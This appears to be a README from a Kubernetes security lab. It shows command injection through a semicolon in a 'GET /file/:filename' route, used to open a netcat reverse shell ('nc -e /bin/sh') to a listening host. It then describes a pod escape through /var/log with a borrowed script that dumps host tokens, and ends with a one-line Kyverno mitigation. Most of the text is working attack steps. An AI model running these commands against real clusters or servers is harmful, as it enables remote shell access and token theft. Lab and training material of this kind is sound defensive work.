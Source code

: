 # Reverse Shell

1 - On you host run the following command in a terminal
```bash
nc -lvp 4242
```

2 - Pass a reverse shell command after a semicolumn in the `GET /file/:filename` route, to execute these commands on the server:


```bash
apt update
apt install netcat-traditional

nc -e /bin/sh 172.17.0.1 4242
# 172.17.0.1 being my IP adress with k3d
```

3 - And tadaaa! You have a Reverse Shell on you host!


# Pod Escape through /var/log

> [!NOTE]
> Credits goes to [danielsagi](https://github.com/danielsagi/kube-pod-escape) for the exploit and the script

1 - On you host run the following command in a terminal
```bash
apt install python3 python3-pip python3-netifaces python3-requests python3-bs4

cat << 'EOF' > /get_host_files.py
<paste the contents of the python script>
EOF

python3 /get_host_files.py
```

And now every tokens are in the `host` directory !!!

# Mitigation 

```
kubectl apply -f manifests/kyverno
```